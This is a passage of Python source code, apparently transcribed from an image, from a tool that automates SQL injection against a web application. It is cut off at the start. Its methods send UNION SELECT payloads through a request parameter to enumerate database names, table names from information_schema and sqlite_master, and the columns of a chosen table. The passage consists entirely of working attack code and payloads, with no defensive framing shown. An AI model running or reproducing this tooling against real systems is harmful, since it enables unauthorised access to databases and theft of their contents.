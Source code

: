 ```python
                params={self.parameter: db_payload}
            )
            
            if response.status_code == 200:
                print(f"  ✓ Database names extracted")
                return response.json() if response.headers.get('content-type', '').startswith('application/json') else response.text
                
        except Exception as e:
            print(f"  ✗ Error extracting database names: {e}")
        
        return None
    
    def extract_table_names(self):
        """Extract table names from current database"""
        print("\n[+] Extracting table names...")
        
        table_payloads = [
            "test' UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema='public'--",
            "test' UNION SELECT name,1,1,1 FROM sqlite_master WHERE type='table'--"
        ]
        
        for payload in table_payloads:
            try:
                response = self.session.get(
                    f"{self.base_url}{self.endpoint}",
                    params={self.parameter: payload}
                )
                
                if response.status_code == 200:
                    print(f"  ✓ Table names extracted with payload: {payload}")
                    return response.json() if response.headers.get('content-type', '').startswith('application/json') else response.text
                    
            except Exception as e:
                continue
        
        return None
    
    def extract_column_names(self, table_name):
        """Extract column names for a specific table"""
        print(f"\n[+] Extracting column names for table: {table_name}")
        
        column_payload = f"test' UNION SELECT column_name,data_type,1,1 FROM information_schema.columns WHERE table_name='{table_name}'--"
        
        try:
            response = self.session.get(
                f"{self.base_url}{self.endpoint}",
                params={self.parameter: column_payload}
            )
            
            if response.status_code == 200:
                print(f"  ✓ Column names extracted for {table_name}")
                return response.json() if response.headers.get('content-type', '').startswith('application/json') else response.text
                
        except Exception as e:
            print(f"  ✗ Error extracting columns for {table_name}: {e}")
        
        return None
    
```